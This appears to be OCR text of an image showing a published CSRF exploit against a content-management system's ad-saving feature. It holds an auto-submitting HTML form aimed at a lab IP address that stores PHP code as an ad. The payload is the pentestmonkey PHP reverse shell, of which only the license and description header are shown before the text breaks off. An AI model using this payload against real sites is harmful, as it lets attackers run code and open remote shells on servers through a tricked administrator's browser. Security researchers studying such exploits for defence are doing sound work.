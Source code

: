 ```
PHP Codes In Ads File
# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo(); 
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://10.10.111.161/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="revshell"/>
<textarea type="hidden" name="adv">
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

```